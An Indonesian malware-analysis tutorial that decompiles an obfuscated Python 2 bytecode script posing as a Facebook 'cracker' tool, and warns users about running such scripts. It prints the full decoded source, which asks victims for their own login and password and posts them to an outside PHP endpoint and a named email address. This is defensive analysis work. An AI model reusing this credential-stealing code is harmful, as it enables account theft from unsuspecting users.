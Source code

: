 
# Mengupas Script Phishing Sederhana

Tutorial singkat kali ini akan membahas sebuah script yang ditujukan untuk mencuri data penggunanya. Script tersebut bernama [fbtarget](https://github.com/Pain-Shinra-Tensei/fbtarget). Berikut ini adalah langkah-langkahnya:

* Pertama kita kloning dulu repositorinya:

```zsh
% git clone 'https://github.com/Pain-Shinra-Tensei/fbtarget'
Cloning into 'fbtarget'...
remote: Enumerating objects: 9, done.
remote: Counting objects: 100% (9/9), done.
remote: Compressing objects: 100% (8/8), done.
remote: Total 9 (delta 1), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (9/9), 4.62 KiB | 4.62 MiB/s, done.
Resolving deltas: 100% (1/1), done.
```

* Selanjutnya kita akan pindah ke sub direktori repositori tersebut:

```zsh
% cd fbtarget
```

* Periksa tipe file yang ada pada repositori tersebut:

```zsh
% file *
fb.py:     python 2.7 byte-compiled
README.md: ASCII text
```

* Karena file `fb.py` tersebut tipenya adalah python bytecode, maka kita ganti ekstensinya menjadi `pyc`:

```zsh
% mv fb.py fb.pyc
```

* Jika kita menggunakan perintah `strings` untuk melihat _printable string_ pada python bytecode tersebut, maka hasilnya kurang lebih seperti ini:

```
% strings fb.pyc
IyBlcm9yIDUwNCByZXZl ... gogICAgbWFpbigp(
Falset
foot
bart
base64t
b64decode(
932257137o.pyt
<module>
```

* Bisa terlihat bahwa terdapat _printable string_ yang di-encode menggunakan base64. Kita dapat melakukan decode menggunakan perintah berikut ini:

```zsh
% echo -n "IyBlcm9yIDUwNCByZXZ ... gogICAgbWFpbigp" | base64 -d
```

* Hasilnya adalah sebagai berikut:

```python
# eror 504 reverse
import os, sys, time, random
try:
    import requests
except ImportError:
    os.system('pip2 install requests && python2 main.py')

a = '\x1b[1;30m'
m = '\x1b[1;31m'
h = '\x1b[1;32m'
k = '\x1b[1;33m'
b = '\x1b[1;34m'
u = '\x1b[1;35m'
c = '\x1b[1;36m'
p = '\x1b[1;37m'
n = '\x1b[0m'
logo = ('{}\n\t{}\xe2\x95\xad\xe2\x95\xad\xe2\x94\x81\xe2\x94\x81\xe2\x95\xae\xe2\x95\xae   \xe2\x95\xad\xe2\x94\x93\xe2\x95\xad\xe2\x94\x93   {}\xe2\x94\x8c\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x90\n\t{}\xe2\x94\x8a\xe2\x94\x83\xe2\x95\xad\xe2\x94\x81\xe2\x95\xaf\xe2\x95\xaf   \xe2\x94\x83\xe2\x94\x97\xe2\x94\x9b\xe2\x94\x97\xe2\x95\xae  {}\xe2\x94\x82 Dark Cracker {}V0.1 {}\xe2\x94\x82\n\t{} \xe2\x94\x83\xe2\x94\x83\xe2\x95\xad\xe2\x94\x81\xe2\x94\x81\xe2\x94\x81\xe2\x94\x81\xe2\x94\x81\xe2\x94\xab\xe2\x95\xad{}\xe2\x96\x8b\xe2\x96\x8b{}\xe2\x94\x83  {}\xe2\x94\x94\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x98\n\t{} \xe2\x94\x83\xe2\x95\xb0\xe2\x94\xab\xe2\x94\x81\xe2\x95\xae      \xe2\x96\xbc\xe2\x94\x83 {}/     {}./Black{}Hat\n\t{} \xe2\x95\xb0\xe2\x94\x81\xe2\x94\xab \xe2\x94\x97\xe2\x94\x81\xe2\x95\xae \xe2\x94\x81\xe2\x95\xae\xe2\x95\xb0\xe2\x94\xbb\xe2\x94\xa3\xe2\x95\xae\n\t{}   \xe2\x95\xb0\xe2\x94\x81\xe2\x94\x81\xe2\x94\x81\xe2\x94\xbb\xe2\x94\x81\xe2\x94\x81\xe2\x94\xbb\xe2\x94\x81\xe2\x94\x81\xe2\x94\xbb\xe2\x94\x9b\n\t{}=====================================\n').format(p, k, p, k, p, m, p, k, m, k, p, k, p, b, m, k, k, p)
imelku = 'agustinagries@gmail.com'
req = lambda url, data: requests.post(url, data=data)

def main():
    os.system('clear')
    print logo
    usr = raw_input(('{}\xe3\x80\x90{}\xe2\x97\x86{}\xe3\x80\x91{}Email/id/no {}: {}').format(p, b, p, h, k, p))
    psw = raw_input(('{}\xe3\x80\x90{}\xe2\x97\x86{}\xe3\x80\x91{}Password    {}: {}').format(p, b, p, h, k, p))
    print ('\n{}\xe3\x80\x90{}\xe2\x97\xaf{}\xe3\x80\x91{}Login...').format(p, b, p, h)
    time.sleep(3)
    print ('\n{}\xe3\x80\x90{}\xe2\x9c\x94{}\xe3\x80\x91{}Login Sukses! sedang Menyiapkan Menu').format(p, h, p, h)
    time.sleep(3)
    teks = ('\n<table border="1" cellpadding="5" bgcolor="black" width=100%>\n<tr>\n<th colspan="2"><center><font color="white">DATA AKUN HEKER BODOH:V</font></th>\n\n</tr>\n<tr>\n<td bgcolor="white"><center><b>Username</td>\n<td bgcolor="white"><center>{}</td>\n</tr>\n<tr>\n  <td bgcolor="white" width=30%><center><b>Password</b></td>\n  <td bgcolor="white"><center>{}</td>\n</tr>\n    ').format(usr, psw)
    web = 'http://savvymotherschool.com/files/post.php'
    data = {'from': '[!] Setoran Nya Bos', 'email_kamu': 'extremeboy@phising.net', 'email_target': imelku, 'subject': 'Ussername : ' + usr, 'mesage': teks}
    try:
        req(web, data)
    except requests.exceptions.ConnectionError:
        print ('{}\xe3\x80\x90{}\xe2\x9c\x96{}\xe3\x80\x91{}Periksa jaringan anda').format(p, m, p, h)

    menu()


def menu():
    os.system('clear')
    print logo
    grup = raw_input(('{}\xe3\x80\x90{}\xe2\x97\x86{}\xe3\x80\x91{}ID Grup {}: {}').format(p, b, p, h, k, p))
    tunggu = random.randint(0, 5)
    time.sleep(tunggu)
    print ('\n{}\xe3\x80\x90{}\xe2\x9c\x94{}\xe3\x80\x91{}Sukses! mengambil data member grup...\n').format(p, h, p, h)
    time.sleep(tunggu)
    dapat = random.randint(0, 99)
    for x in range(dapat):
        idmember = random.randint(0, 99999999999)
        cp = random.choice(['CP', 'OK'])
        pw = random.choice(['sayang', 'anonymous', 'freefire', 'indonesia', 'doraemon', '12345', '123456', 'ronaldo', 'anjing', 'cintaku'])
        print ('{}[{}').format(p, b) + cp + ('{}]{}').format(p, h), '1000' + str(idmember) + (' {}|{} ').format(p, h) + pw
        save = open('hasil.txt', 'w')
        save.write('Terjadi Error\n')
        save.close()
        jeda = random.randint(0, 9)
        time.sleep(jeda)

    print ('\n{}\xe3\x80\x90{}\xe2\x9c\x94{}\xe3\x80\x91{}Crack Sudah Sesesai').format(p, h, p, p)
    print ('{}Hasil Crack Di Simpan di : hasil.txt').format(p)
    ulang = raw_input(('{}Crack lg? y/n : {}').format(p, h))
    if ulang == 'y':
        os.system('python2 main.py')
    else:
        sys.exit(('{}\xe3\x80\x90{}!{}\xe3\x80\x91{}Program berhenti').format(p, m, p, h))


if __name__ == '__main__':
    main()
```

* Perhatikan fungsi `main` pada kode di atas, khususnya pada bagian ini:

```python
    teks = ('\n<table border="1" cellpadding="5" bgcolor="black" width=100%>\n<tr>\n<th colspan="2"><center><font color="white">DATA AKUN HEKER BODOH:V</font></th>\n\n</tr>\n<tr>\n<td bgcolor="white"><center><b>Username</td>\n<td bgcolor="white"><center>{}</td>\n</tr>\n<tr>\n  <td bgcolor="white" width=30%><center><b>Password</b></td>\n  <td bgcolor="white"><center>{}</td>\n</tr>\n    ').format(usr, psw)
    web = 'http://savvymotherschool.com/files/post.php'
    data = {'from': '[!] Setoran Nya Bos', 'email_kamu': 'extremeboy@phising.net', 'email_target': imelku, 'subject': 'Ussername : ' + usr, 'mesage': teks}
    try:
        req(web, data)
```

* Bagian tersebut akan mengirimkan/mengunggah informasi pengguna berupa **username** dan **password** ke tautan `http://savvymotherschool.com/files/post.php`. Jadi bagi rekan-rekan yang sering menggunakan script buatan orang lain dalam bentuk _python bytecode_ atau terenkripsi dan semacamnya, sebaiknya berhati-hati. Alasan penulis sering membongkar script yang berupa _python bytecode_ salah satunya adalah seperti yang ada pada tutorial ini, yaitu untuk mencari kemungkinan adanya unsur _backdoor_ atau _phising_.


Sekian tutorial singkat kali ini, semoga bermanfaat. Terima kasih kepada Allah SWT, dan Anda yang telah membaca tutorial ini.
